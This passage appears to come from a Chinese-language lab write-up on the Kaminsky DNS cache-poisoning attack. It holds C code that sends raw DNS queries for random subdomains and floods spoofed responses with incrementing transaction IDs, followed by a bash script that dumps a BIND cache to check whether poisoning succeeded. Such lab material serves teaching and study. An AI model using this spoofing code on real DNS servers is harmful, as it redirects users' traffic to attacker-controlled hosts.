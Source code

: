 ```c
    name[5] = '\0';
	printf("attempt #%ld. request is [%s.example.com], transaction ID is: [%hu]\n", 
	     ++i, name, transaction_id);

    // 修改二级域名，发送dns请求
    memcpy(ip_req+41,name,5);               
    send_raw_packet(ip_req, n_req);
   
    // 回复给dns的包，其中有两处域名修改
    memcpy(ip_resp+41,name,5);               
    memcpy(ip_resp+64,name,5);
	
    for(int i=0;i<100;i++)
	{
		transaction_id++;
		
		// 修改序列号，重新发伪造包
		memcpy(ip_resp+28,&transaction_id,2); 
		send_raw_packet(ip_resp,n_resp);
	}
  }
  return 0;
}

void send_raw_packet(char * buffer, int pkt_size)
{
  struct sockaddr_in dest_info;
  int enable = 1;

  int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
  setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
	     &enable, sizeof(enable));

  struct ipheader *ip = (struct ipheader *) buffer;        
  dest_info.sin_family = AF_INET;
  dest_info.sin_addr = ip->iph_destip;
  
  sendto(sock, buffer, pkt_size, 0,
       (struct sockaddr *)&dest_info, sizeof(dest_info));
  close(sock);
}
```

### 准备测试脚本

在DNS服务器准备测试脚本
```bash
#!/bin/bash

echo 'dump the cache'
sudo rndc dumpdb -cache                                   
cat /var/cache/bind/dump.db | grep attack
echo 'if there is no result,the attack has not succeed yet'
```
